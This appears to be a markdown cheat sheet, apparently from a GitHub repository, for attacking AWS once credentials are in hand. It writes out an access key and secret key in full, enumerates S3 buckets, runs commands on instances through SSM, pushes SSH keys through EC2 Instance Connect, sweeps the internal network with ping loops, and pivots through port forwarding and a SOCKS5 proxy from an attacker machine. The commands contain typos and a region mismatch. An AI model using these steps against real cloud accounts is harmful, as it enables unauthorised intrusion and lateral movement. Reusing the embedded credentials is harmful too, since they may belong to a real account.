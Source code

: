# Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Upon adding the crednetail.next step is to enumerate
```

aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
# Port Forwarding if you have found any susceptible Services like Tomcat.Jboss and Weblogic
```
ssh -i private.key ubuntu@54.211.12.132 -L 8080:127.0.0.1:8080 -N -f

wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

The following variable should be changed
define SERVER_PORT 7777
#define USERNAME "NLK"
#define PASSWORD "123456@*&<>"

On your Attacker Machine,proxychains setting must be amend like information below

socks5 54.211.12.132 7777 NLK 123456@*&<>
proxychains firefox 127.0.0.1:8080





```
